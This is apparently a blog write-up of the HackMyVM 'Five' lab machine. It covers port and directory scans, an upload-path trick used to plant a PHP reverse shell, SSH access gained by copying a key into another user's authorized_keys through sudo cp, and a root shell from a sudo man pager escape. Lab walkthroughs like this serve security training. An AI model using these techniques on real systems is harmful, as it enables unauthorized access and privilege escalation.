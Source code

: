 ```yaml
---
layout: post
author: maxin
title:  "Five"
date:   2022-01-01 09:27:06 PM -03
category: HackMyVM
tags: Writeup
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Five)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Tue Dec 28 20:31:18 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.250
Nmap scan report for 192.168.0.250
Host is up (0.018s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
| http-robots.txt: 1 disallowed entry 
|_/admin
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.14.2
|_http-title: 403 Forbidden

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 28 20:31:25 2021 -- 1 IP address (1 host up) scanned in 6.87 seconds
{% endhighlight  %}

# Port 80

Home page return a 403 code. So start to fuzzing

{% highlight bash %}
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.170
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2021/12/29 14:35:09 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 185] [--> http://192.168.0.170/uploads/]
/admin                (Status: 301) [Size: 185] [--> http://192.168.0.170/admin/]  
/upload.php           (Status: 200) [Size: 48]                                     
/upload.html          (Status: 200) [Size: 346]                                    
/robots.txt           (Status: 200) [Size: 17]
{% endhighlight  %}

## upload.html

![Untitled](/images/five/upload.png)

Upload a php reverse shell 

Intercept the request and go to the final of the request. Change the `uploads/` to `./` a

![Untitled](/images/five/reverse1.png) | ![Untitled](/images/five/reverse2.png)

Start the listerner and access `$IP/reverse.php`

![Untitled](/images/five/reverse3.png)

# User

{% highlight bash %}
sudo -l
User www-data may run the following commands on five:
    (melisa) NOPASSWD: /bin/cp
{% endhighlight  %}

Putting our private key to melisa’s authorized_keys

{% highlight bash  %}
ssh-keygen -f melisa
sudo -u melisa cp melisa.pub /home/melisa/.ssh/authorized_keys
{% endhighlight  %}

### SSH

Has a service running on port 4444

{% highlight bash  %}
netstat -tunlp
tcp        0      0 127.0.0.1:4444          0.0.0.0:*               LISTEN      -
{% endhighlight  %}

We can check using nc

![Untitled](/images/five/port4444.png)

{% highlight bash  %}
ssh -i melisa melisa@127.0.0.1 -p 4444
{% endhighlight  %}

# Root

{% highlight bash %}
sudo -l

User melisa may run the following commands on five:
    (ALL) SETENV: NOPASSWD: /bin/pwd, /bin/arch, /bin/man, /bin/id, /bin/rm, /bin/clear
{% endhighlight  %}

We can use man binary to spawn a shell has a root

{% highlight bash  %}
sudo man -P less man # -P it's use to select the pager 
!/bin/sh 
{% endhighlight  %}